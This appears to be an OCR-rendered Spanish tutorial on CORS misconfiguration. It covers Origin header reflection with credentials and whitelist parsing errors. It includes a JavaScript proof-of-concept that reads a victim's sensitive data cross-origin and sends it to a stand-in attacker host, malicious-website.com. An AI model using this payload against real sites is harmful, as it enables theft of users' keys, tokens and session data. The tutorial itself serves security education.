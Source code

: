 ```
GET /sensitive-victim-data HTTP/1.1 Host: vulnerable-website.com Origin: https://malicious-website.com Cookie: sessionid=...
```

El servidor responde con:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: [https://malicious-website.com](https://malicious-website.com)
Access-Control-Allow-Credentials: true ...
```

Esto indica que el origen `https://malicious-website.com` tiene acceso permitido, y que la solicitud puede incluir credenciales (como cookies).

### Explotación de la vulnerabilidad

Cuando el servidor refleja el encabezado `Origin` de manera insegura en `Access-Control-Allow-Origin`, cualquier dominio puede acceder a los recursos del sitio vulnerable. Si la respuesta contiene datos sensibles como claves API o tokens CSRF, un atacante puede robar esta información al incluir el siguiente script en su propio sitio web malicioso:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='//malicious-website.com/log?key='+this.responseText;
};
```

## Errores al analizar los encabezados Origin

Algunas aplicaciones que admiten acceso desde múltiples orígenes lo hacen mediante una lista blanca de orígenes permitidos. Cuando se recibe una solicitud CORS, el origen proporcionado se compara con la lista blanca. Si el origen está en la lista, se refleja en el encabezado `Access-Control-Allow-Origin`, permitiendo así el acceso.

**Ejemplo**:

Solicitud:

```
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: [https://innocent-website.com](https://innocent-website.com)
```

## Errores al analizar los encabezados `Origin` - Continuación

Los errores suelen surgir al implementar listas blancas de orígenes CORS. Algunas organizaciones deciden permitir el acceso desde todos sus subdominios (incluyendo subdominios futuros que aún no existen). Y algunas aplicaciones permiten el acceso desde los dominios de otras organizaciones, incluyendo sus subdominios. Estas reglas suelen implementarse mediante la coincidencia de prefijos o sufijos de URL, o utilizando expresiones regulares. Cualquier error en la implementación puede llevar a otorgar acceso a dominios externos no deseados.
